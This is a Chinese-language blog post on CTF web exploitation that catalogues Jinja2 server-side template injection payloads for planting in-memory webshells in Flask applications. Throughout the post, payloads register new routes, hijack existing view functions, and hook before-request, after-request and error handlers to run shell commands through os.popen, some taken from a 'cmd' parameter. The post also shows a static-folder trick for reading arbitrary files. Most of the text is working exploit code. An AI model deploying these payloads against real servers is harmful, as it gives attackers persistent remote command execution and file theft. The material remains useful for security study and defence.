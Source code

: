```yaml
---
title: Flask内存马详解
toc: true
categories:
  - 技术
  - ctf
  - web
date: 2025-05-07 21:10:12
tags:
---
```


本篇以jinja2 ssti视角研究Flask高版本内存马

## 拿request对象

```py
__import__("flask").request.args.get("cmd") #直接从flask拿
ur1_for.__globals__['request']				#从flask的一些函数的__globals__里拿
request_ctx.request.args.get  				#request_ctx的属性
```

## app.view_functions相关

因为高版本给add_url_rule加了装饰器`@setupmethod`，这个装饰器会先调用`app._check_setup_finished`, 所以得将`app._got_first_request`改为False

```python
    def _check_setup_finished(self, f_name: str) -> None:
        if self._got_first_request:
            raise AssertionError(
                f"The setup method '{f_name}' can no longer be called"
                " on the application. It has already handled its first"
                " request, any changes will not be applied"
                " consistently.\n"
                "Make sure all imports, decorators, functions, etc."
                " needed to set up the application are done before"
                " running it."
            )
```

#### 路由装饰器

```python
{{lipsum.__globals__['__builtins__']['exec']('app._got_first_request=False
@app.get("/dd")#其他的应该都可以
def cmd():
    return __import__("os").popen(__import__("flask").request.args.get("cmd")).read()',{'app':url_for.__globals__['current_app']})}}
```

```python
{{lipsum.__globals__['__builtins__']['exec']('app._got_first_request=False
def cmd():
    return __import__("os").popen(__import__("flask").request.args.get("cmd")).read()
app.get("/dd")(cmd)',{'app':url_for.__globals__['current_app']})}}
```

#### add_url_rule

```python
{{lipsum.__globals__['__builtins__']['exec']('app._got_first_request=False
def cmd():
    return __import__("os").popen("whoami").read()'
app.add_url_rule("/ss","cmd",cmd)#使用lambda表达式也ok
,{'app':url_for.__globals__['current_app']})}}
```

#### add_url_rule最后还是调用`url_map.add(rule_obj)`然后`view_functions[endpoint] = view_func`

这里就不用改`app._got_first_request=False`啦

```py
url_for.__globals__['__builtins__']['exec'](
    "app.url_map.add(app.url_rule_class('/shell', methods=['GET'], endpoint='shell'));app.view_functions.update({'shell': lambda:__import__('os').popen('whoami').read()})",#或者app.view_functions["shell"]=lambda:__import__('os').popen('whoami').read()
    {'app':url_for.__globals__['current_app']}
)
```

#### endpoint装饰器会`view_functions[endpoint] = view_func`，但是有@setupmethod

```py
url_for.__globals__['__builtins__']['exec']("app._got_first_request=False
app.url_map.add(app.url_rule_class('/shell', methods=['GET'], endpoint='shell'))
@app.endpoint('shell')
def f():
	return __import__('os').popen('whoami').read()",
    {'app':url_for.__globals__['current_app']}
)
```

反正老多了比如`_method_route("PATCH", rule, options)`

#### 劫持路由函数

比如存在

@app.route("/")
		def index():

```py
url_for.__globals__['__builtins__']['exec'](
    "app.view_functions['index'] = lambda:__import__('os').popen('whoami').read()",#这里的index是你的路由装饰函数
    {'app':url_for.__globals__['current_app']}
)
```

## app.before_request_funcs相关

这函数也装饰了@setupmethod

```py
lipsum.__globals__['__builtins__']['exec']("app._got_first_request=False
@app.before_request
def f():
	return __import__('os').popen('whoami').read()",
{'app':url_for.__globals__['current_app']})
```

向before_request_funcs字典里加

```py
app.before_request_funcs.setdefault(None, []).append(lambda: __import__('os').popen('whoami').read())
```

## app.after_request_funcs相关

函数只能返回response对象

```py
{{lipsum.__globals__['__builtins__']['exec']("app._got_first_request=False
@app.after_request
def f(c):
	return __import__('flask').Response(__import__('os').popen('whoami').read())",#app.make_response可以直接生成Response，好多函数都能返回Response，但是不太好构造
{'app':url_for.__globals__['current_app']})}}
```

向after_request_funcs字典里加

```python
app.after_request_funcs.setdefault(None, []).append(lambda x:__import__('flask').Response(__import__('os').popen('whoami').read()))
```

## app.error_handler_spec相关

```py
lipsum.__globals__['__builtins__']['exec']("app._got_first_request=False
@app.errorhandler(404)
def error_handler(d):
    return __import__('os').popen('whoami').read()",
{'app':url_for.__globals__['current_app']})
```

```py
lipsum.__globals__['__builtins__']['exec']("app._got_first_request=False
app.register_error_handler(404,lambda e:__import__('os').popen('whoami').read())",
{'app':url_for.__globals__['current_app']})
```

```py
{{url_for.__globals__['__builtins__']['exec']("global exc_class;global code;exc_class,code=app._get_exc_class_and_code(404);app.error_handler_spec[None][code][exc_class] = lambda error:__import__('os').popen(request.args.get('cmd')).read()", {'request':url_for.__globals__['request'],'app':get_flashed_messages.__globals__['current_app']})}}
```

## 其他

app.teardown_request （无回显呀,感觉没啥意义）

```py
lipsum.__globals__['__builtins__']['exec']("app._got_first_request=False
@app.teardown_request
def f(x):
	return __import__('os').popen('whoami').read()",
{'app':url_for.__globals__['current_app']})
```

重写某些每次请求都会执行的函数，这样会比较危险，而且不容易有回显

## 回显相关

可以对Response类做更改

```py
Response.default_status=__import__('os').popen('whoami').read()
Response.default_mimetype=__import__('os').popen('whoami').read()
```

然后就是对Response对象的更改（有些只做了类型标准，没有初始化的属性就只能改响应对象啦）,但是每次请求都创建新响应对象，所以我觉得这个作用不大，本质上跟生成响应没啥区别

## 题外

改static_folder读任意文件

```py
app.static_url_path="/static";app.static_folder="/"   #然后static/app.py读源码
```

先写这么多，后面再更？

现成的Python内存马管理工具：https://github.com/orzchen/PyMemShell
